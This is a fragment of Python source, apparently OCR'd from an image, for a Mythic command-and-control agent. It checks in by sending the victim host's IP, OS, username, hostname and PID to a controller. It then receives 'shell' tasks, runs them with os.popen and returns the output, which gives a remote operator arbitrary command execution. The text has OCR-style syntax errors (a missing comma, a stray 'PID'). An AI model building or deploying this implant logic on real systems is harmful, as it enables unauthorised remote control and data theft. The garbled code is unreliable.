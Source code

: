 ```
	return base64.b64encode(sendData.encode())

def SendCheckin():
	data = {
		"action":"checkin",
		"ip":socket.gethostbyname(socket.gethostname()),
		"os":platform.release(),
		"user":os.getlogin(),
		"host":socket.gethostname(),
		"domain":"",
		"pid":os.getpid()
		"uuid":agent["PayloadUUID"],
		"architecture":platform.system()
	}
	response = PostRequest(getEncodedJson(data,agent["PayloadUUID"]))
	decodedResponse = base64.b64decode(response)[36:]
	print("Mythic Response: " + str(decodedResponse))
	
	responseData = json.loads(decodedResponse)
	
	if responseData["status"] == "success":
		agent["UUID"] = responseData["id"]
		return True
	else:
		return False
		


def runTask(task):
	print(task)
	data = {
		"action":"post_response",
		"responses":[{"task_id":task["id"],}],
		}
		
	if task['command'] == "shell":PID
		command = json.loads(task['parameters'])
		print(command)
		returnVal = shell(command["command"])

		data["responses"][0]["user_output"] = returnVal
	elif task['command'] == "exit":
		returnVal = "Exited"
		ex()
	else:
		returnVal = "Not Implemented"
		data["responses"][0]["user_output"] = returnVal
	
	response = PostRequest(getEncodedJson(data,agent["UUID"]))
	decodedResponse = base64.b64decode(response)[36:]
	print("Task - Mythic Response: " + str(decodedResponse))
	return True
	
def shell(param):
	cmd = os.popen(param)
	return cmd.read()
	
def ex():
	print("EXITING")
	exit()

tasks = []

```